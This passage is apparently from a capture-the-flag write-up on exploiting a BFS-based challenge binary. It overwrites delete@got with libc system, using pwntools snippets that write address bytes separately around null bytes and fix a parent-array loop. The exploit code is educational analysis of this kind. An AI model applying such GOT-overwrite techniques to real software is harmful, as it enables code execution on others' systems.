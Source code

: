Anyway, remember what I said about the null bytes? That's relevant here. Obviously the address we're trying to write has two null bytes at its end, but we can't do two null bytes at once! The best we can do is do them separately. We write the first 7 bytes of the address first.

```python
rop = ROP(libc)
full = p64(rop.ret.address)
topush = full[:7]
edges = [[first + i, topush[i]] for i in range(0, len(topush))]


sendtestcase(256, topush[0], topush[-1], edges)

first += 7
```

Now for the part that drove me insane for a whole half hour. From here writing a singular null byte and then some garbage and then libc@system at delete@got seems easy, but it's totally not. Why not? One word - loop.

Remember what I said about the parents array *usually* not setting up an infinite loop? Well it turns out when you abuse the bfs algorithm such a high amount, sometimes you don't really get what you want! 

The result? After getting a successful overwrite, when trying to crawl back and find the path, the program gets stuck in an infinite loop. The last character I pushed would go up to 27 in the crawl, and from there it would infinite loop as 27's parent had been set to all sorts of things in the past. Changing the `dest` value didn't help for various reasons - trust me, I tried.

Luckily, there was one glorious, beautiful, amazing line of code that would save me from this horror.
`parent[from] = from;`

If I could just set `from` to 27, it would fix its entry in the parent array *forever*. Then, it's all rainbows and cupcakes! That would *also* cause 27 or 0x1b to be pushed onto the queue though, we don't want that happening just about anywhere. Since we're planning to garble up the address just before delete@got anyway, that's the perfect place to let it happen. All we need to do now is do the extra null byte(and one other byte for good measure) on its own, and then the rest.
```python
topush = b"\x00\x08"
edges = [[first + i, topush[i]] for i in range(0, len(topush))]


sendtestcase(256, 0, topush[-1], edges)

first += 2

topush = p64(0x0102030405060708)[2:] + p64(libc.symbols['system'])[:6]
edges = [[first + i, topush[i]] for i in range(0, len(topush))]
print(edges)
print(first, edges)

sendtestcase(256, 27, topush[-1], edges)
print(hex(libc.symbols['system'])
```

